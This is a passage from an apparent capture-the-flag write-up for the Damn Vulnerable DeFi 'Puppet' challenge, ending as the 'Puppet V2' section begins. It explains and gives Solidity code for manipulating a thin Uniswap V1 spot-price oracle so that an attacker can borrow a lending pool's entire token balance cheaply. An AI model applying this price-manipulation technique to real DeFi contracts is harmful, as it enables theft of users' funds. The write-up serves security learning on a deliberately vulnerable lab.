 We start with a DVT balance 100x the amount that is in the exchange. As we know the ETH deposit required for borrowing DVT tokens is based on the DVT's value in ETH. The exchange has such low liquidity that we can easily manipulate the price of the "oracle" by depositing all our DVT tokens into it and therefore lowering the value of DVT. Before the deposit DVT, we needed 200,000 ETH to borrow 100,000 DVT tokens (2x collateral). The following snippet shows how all DVT tokens of the user are swapped for ETH in the exchange. 

```javascript
token.approve(address(uniswapV1Exchange), PLAYER_INITIAL_TOKEN_BALANCE);
uniswapV1Exchange.tokenToEthSwapInput(PLAYER_INITIAL_TOKEN_BALANCE, 1, block.timestamp + 15 minutes);       
```

The swap gave the player 9.9 ETH, so nearly all of the 10 ETH of the exchange. As a result the exchange is nearly out of ETH and has 1,010 DVT tokens. The "oracle" DVT price as shown in the next snippet will therefore return a very low value.

```javascript
function _computeOraclePrice() private view returns (uint256) {
    // calculates the price of the token in wei according to Uniswap pair
    // 0.1 ETH / 1010 DVT
    return uniswapPair.balance * (10 ** 18) / token.balanceOf(uniswapPair);
}
```

Now we only need to deposit 19.6 ETH to get all 100,000 DVT tokens. The following snippet shows the whole solution:

```javascript
    uint256 depositRequiredBefore = lendingPool.calculateDepositRequired(POOL_INITIAL_TOKEN_BALANCE);
    console.log("Deposit required before ETH deposit: %d", depositRequiredBefore);

    // Put all of the player's DVT into the dex to manipulate the price
    token.approve(address(uniswapV1Exchange), PLAYER_INITIAL_TOKEN_BALANCE);
    uniswapV1Exchange.tokenToEthSwapInput(PLAYER_INITIAL_TOKEN_BALANCE, 1, block.timestamp + 15 minutes);

    uint256 depositRequiredAfter = lendingPool.calculateDepositRequired(1e18);
    console.log("Deposit required after ETH deposit: %d", depositRequiredAfter);

    uint256 tokenBalanceOfPool = token.balanceOf(address(lendingPool));
    uint256 depositRequiredToBorrowAll = lendingPool.calculateDepositRequired(tokenBalanceOfPool);

    // Borrow all tokens and transfer to recovery
    lendingPool.borrow{value: depositRequiredToBorrowAll}(tokenBalanceOfPool, recovery);
```

## 9 - Puppet V2

The setup is the same as in the previous challenge. The only difference is that the lending pool now uses Uniswap V2 as a price oracle and the exchange has more liquidity. The goal is to save all DVT tokens from the lending pool.

Uniswap V2 supports time-weighted average prices that are under some assumptions (long enough period, enough liquidity) a good approximation of the current price (see [Uniswap Docs](https://docs.uniswap.org/contracts/v2/concepts/core-concepts/oracles)). The issue is that puppet pool does not utilize Uniswap V2's TWAP capabilities but only uses the current spot price as it is evident from the oracle function:
